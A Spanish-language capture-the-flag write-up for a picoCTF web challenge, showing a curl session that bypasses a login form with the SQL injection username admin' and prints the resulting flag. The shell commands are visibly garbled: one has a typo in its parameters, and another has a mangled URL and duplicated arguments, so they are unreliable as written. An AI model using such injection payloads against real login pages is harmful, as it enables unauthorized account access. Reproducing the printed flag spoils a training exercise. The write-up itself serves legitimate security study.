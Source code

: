 ## Descripción 
```
There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#objetivo)
## Solución
```bash
porti_04@DESKTOP-8HT902T:~$ curl -s  https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username-admin&password=password&debug=1"
<pre>username:
password: password
SQL query: SELECT * FROM users WHERE name='' AND password='password'
</pre><h1>Login failed.</h1>porti_04@DESKTOP-8HT902T:~$ curl -s  https://jupiter.challenges.picoctf.org"username=admin';&password=password&debug=1";&password=password&debug=1"
<pre>username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>porti_04@DESKTOP-8HT902T:~$

flag: picoCTF{m0R3_SQL_plz_c34df170}
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#soluci%C3%B3n)

## Notas Adicionales

[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#notas-adicionales)

### Referencias